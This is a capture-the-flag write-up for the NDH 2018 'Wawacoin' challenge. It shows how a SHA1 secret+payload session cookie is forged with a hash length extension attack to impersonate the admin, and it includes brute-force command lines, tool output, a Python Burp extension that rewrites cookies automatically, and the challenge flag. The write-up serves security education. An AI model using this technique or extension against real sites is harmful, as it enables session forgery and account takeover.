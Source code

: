 ```yaml
---
title: Quals NDH 2018 - Wawacoin
authors: cnotin
layout: writeup
---
```

Solves: 23 / Points: 400 / Category: Crypto/web
## Challenge description
> Sell your house, buy WawaCoin cryptocurrency cyber-blockchain, ???, profit.

We have a website about a new cryptocurrency named *Wawacoin*. The registration is closed but a demo interface is offered.
It connects us automatically as the *demo* user, then we have to enter our credit card information. However the website refuses it, stating that we do not have enough money.

## Challenge resolution
### Information leak
First, we find that the login form discloses that the *admin* account is valid, since it returns different error messages ("Bad username" / "Bad password").

### Crypto cookie
This challenge is all about crypto(graphy|currency) since when logging as the *demo* user we are assigned a `session` cookie with the following content:

```
session=757365723d64656d6f|9183ff6055a46981f2f71cd36430ed3d9cbf6861
```

The `session` cookie has two parts:
* Hex-encoded content, whose value is `user=demo`
* SHA1 signature, assumed based on its length
We also notice that any modification of either part triggers either a 500 error, or a redirection to the login page.

Then, we try to find common crypto flaws such as padding oracles. We can try a [hash length extension attack](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) too and observe the resulting behavior.

This attack happens when a flawed Message Authentication Code algorithm is based on the concatenation of `secret+payload`: by having the hash of this string, we can append arbitrary data to the payload and compute a valid hash without knowing the secret. A tool can be used to simply *extend* the hash based on the current known value.

### Hash length extension attack
We use the [*hash_extender*](https://github.com/iagox86/hash_extender) tool that supports SHA1.

We already have the format `--format sha1`, the original signature `--signature`, the original data `--data user=demo`, and we want to start by appending just one char `--append A`.
We still miss the length of the secret, so let's bruteforce it!
Here is the output for two different `--secret` lengths:
```shell_session
$ ./hash_extender --data user=demo --append A --signature 9183ff6055a46981f2f71cd36430ed3d9cbf6861 --format sha1 --secret 1
Type: sha1
Secret length: 1
New signature: 41b8fd13c9ad0b2f18fc76e0f17dd01768ca8b63
New string: 757365723d64656d6f80000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000005041

$ ./hash_extender --data user=demo --append A --signature 9183ff6055a46981f2f71cd36430ed3d9cbf6861 --format sha1 --secret 2
Type: sha1
Secret length: 2
New signature: 41b8fd13c9ad0b2f18fc76e0f17dd01768ca8b63
New string: 757365723d64656d6f800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000005841
```

The signature is identical, only the new string is slightly different.
Therefore, to bruteforce the secret, we have a fixed signature and generate the resulting values for a length of 0 to 30:

```shell
for i in $(seq 0 30); do ./hash_extender --data user=demo --append A --signature 9183ff6055a46981f2f71cd36430ed3d9cbf6861 --format sha1 --secret $i | grep "New string" | cut -d' ' -f3; done
```

We use *Burp Intruder* to try all the generated new strings, with the fixed signature. The payload for the length 16 gives an interesting result:
![Burp Intruder](/assets/wawacoin-intruder.png){: .image }

Note that the username is displayed in the HTML page on the logout button: it is very helpful to see how our payload is decrypted.
We confirm that we can successfully append characters to the encrypted `session` cookie which is a very nice power to have!

### Creating a custom *Burp* extension
We still need to find a vulnerability: something interesting to trigger with this string that the website is surely taking for trusted :smirk:

Generating a payload to probe for a vulnerability, testing it on the website, and retrying again and again is time-consuming. In this case, we like to create a *Burp* extension. You can find a very good and simple [example by Nicolas Grégoire / Agarri](http://www.agarri.fr/kom/archives/2013/10/22/exploiting_wpad_with_burp_suite_and_the_http_injector_extension/index.html) in Python [HTTPInjector.py](http://www.agarri.fr/docs/HTTPInjector.py).

In *Burp*, just go to Extender -> APIs and click on *Save interface files*. Extract the files in a `burp` folder and put your `.py` extension next to this folder.

The full code of the extension is available at the end of this writeup and on our [GitHub repository](https://github.com/Tipi-Hack/ctf-tools/blob/master/web/burp_extension-hash_extender.py).
It captures every outgoing request, from any tool (Proxy, Repeater, Scanner...), gets the clear-text content of the `session` cookie and encrypts it using *hash_extender*. Just keep in mind that your payload is appended to the original payload.

It works wonders and is very efficent, isn't it? :ok_hand:
![Burp extension](/assets/wawacoin-burp-extension.png){: .image }

### Finding a vulnerability and the flag
Thanks to our extension, we quickly try several things and come to the conclusion that we can try to impersonate the admin.

If the original payload is: `user=demo`, what would happen if we append `&user=admin`?
The anwser is that the second `user` overwrites the first, we impersonate *admin* and get the flag:
![Got admin](/assets/wawacoin-got-admin.png){: .image }

![Got flag](/assets/wawacoin-flag.png){: .image }

Flag: `NDH{c7774051db4b880da67598770c955ff99363e76d}`

## Appendix: Burp extension
```python
# encoding: utf8
# Burp extension for the 'Wawacoin' NDH quals challenge
# By Clément Notin @cnotin
# Based on HTTPInjector by @Agarri_FR // http://www.agarri.fr/kom/archives/2013/10/22/exploiting_wpad_with_burp_suite_and_the_http_injector_extension/index.html

from burp import IBurpExtender
from burp import IHttpListener
import subprocess

class BurpExtender(IBurpExtender, IHttpListener):
    def registerExtenderCallbacks(self, callbacks):
        self._helpers = callbacks.getHelpers()

        callbacks.setExtensionName("NDH quals")

        callbacks.registerHttpListener(self)

    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        # only process requests
        if not messageIsRequest:
            return

        req = messageInfo.getRequest()
        req = self._helpers.bytesToString(req)

        if not "session=" in req:
            return
        if "GET /static" in req:
            return

        session = req.split("session=")[1].split("\r\n")[0]
        print "session before=" + session

        output = subprocess.check_output(["/root/tools/hash_extender/hash_extender",
                                          "--data", "user=demo",
                                          "--signature", "9183ff6055a46981f2f71cd36430ed3d9cbf6861",
                                          "--format", "sha1",
                                          "--secret", "16",
                                          "--append", session
                                          ])
        sig = output.split("New signature: ")[1].split("\n")[0]
        data = output.split("New string: ")[1].split("\n")[0]

        session_new = "%s|%s" % (data, sig)
        print "session after ="+session_new

        req = req.replace(session, session_new)

        req = self._helpers.stringToBytes(req)

        messageInfo.setComment("payload %s" % session)
        messageInfo.setHighlight("yellow")

        messageInfo.setRequest(req)
